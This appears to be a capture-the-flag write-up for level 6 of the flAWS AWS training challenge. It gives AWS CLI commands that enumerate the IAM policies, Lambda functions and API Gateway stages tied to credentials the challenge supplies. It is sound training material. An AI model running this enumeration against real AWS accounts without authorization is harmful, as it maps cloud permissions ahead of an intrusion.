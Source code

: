 **Flaw: Extra permissions given to policies **

* Create a profile using the provided credentials
	```
	aws configure --profile flaws-l6
	```
* Get other info about the profile 
	```
	aws --profile flaws-l6 iam get-user
	```
* List the IAM policies attached to the user 
	```
	aws --profile flaws-l6 iam list-attached-user-policies --user-name Level6
	```
* Get more info on the policy `list_apigateways`
	```
	aws --profile flaws-l6 iam get-policy --policy-arn arn:aws:iam::975426262029:policy/list_apigateways
	```
* Get the version of the policy
	```
	aws --profile flaws-l6 iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4
	```
* The policy tells us we can `GET` on the resource `arn:aws:apigateway:us-west-2::/restapis/*`
* Enumerating the other policy `MySecurityAudit`, it lets us see some things about lambdas.
* List the lambda functions
	```
	aws --profile flaws-l6 --region us-west-2 lambda list-functions
	```
* Get policy for the function 
	```
	aws --profile flaws-l6 --region us-west-2 lambda get-policy --function-name Level6
	```
* Use the API ID: `s33ppypa75` and get the stage
	```
	aws --profile flaws-l6 --region us-west-2 apigateway get-stages --rest-api-id s33ppypa75
	```
	
* That tells you the stage name is "**Prod**". Lambda functions are called using that rest-api-id, stage name, region, and resource as 
	* Format:   
	`https://<API-id>.execute-api.<region>.amazonaws.com/<stage-name>/<resource>`
		* API-id: `s33ppypa75`
		* Region: `us-west-2`
		* Stage: `Prod`
		* Resource: `level6`
	* URL : https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6
	* On visting the url it displays another URL which is the [final URL](http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/) 


```
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_ 
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
		flAWS - The End
```	

